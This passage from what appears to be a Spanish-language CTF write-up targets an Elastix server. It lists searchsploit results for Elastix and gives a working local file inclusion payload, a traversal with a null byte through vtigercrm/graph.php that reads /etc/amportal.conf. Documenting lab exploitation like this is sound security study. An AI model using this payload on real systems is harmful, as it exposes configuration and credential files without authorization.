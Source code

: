 <figure><img src="../../../../.gitbook/assets/Puerto80.PNG" alt=""><figcaption></figcaption></figure>

#### Explotación

Buscamos con **searchsploit** vulnerabilidades que tenga `elastix` y vamos a probar el del **local file inclusion** que significa leer archivos de la maquina

```shell
> searchsploit elastix
-------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                            |  Path
-------------------------------------------------------------------------- ---------------------------------
Elastix - 'page' Cross-Site Scripting                                     | php/webapps/38078.py
Elastix - Multiple Cross-Site Scripting Vulnerabilities                   | php/webapps/38544.txt
Elastix 2.0.2 - Multiple Cross-Site Scripting Vulnerabilities             | php/webapps/34942.txt
Elastix 2.2.0 - 'graph.php' Local File Inclusion                          | php/webapps/37637.pl
Elastix 2.x - Blind SQL Injection                                         | php/webapps/36305.txt
Elastix < 2.5 - PHP Code Injection                                        | php/webapps/38091.php
FreePBX 2.10.0 / Elastix 2.2.0 - Remote Code Execution                    | php/webapps/18650.py
-------------------------------------------------------------------------- ---------------------------------
```

Según el script de perl hay una ruta donde se puede hacer el **local file inclusion**

```perl
> searchsploit -x php/webapps/37637.pl | grep "LFI Exploit"
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```
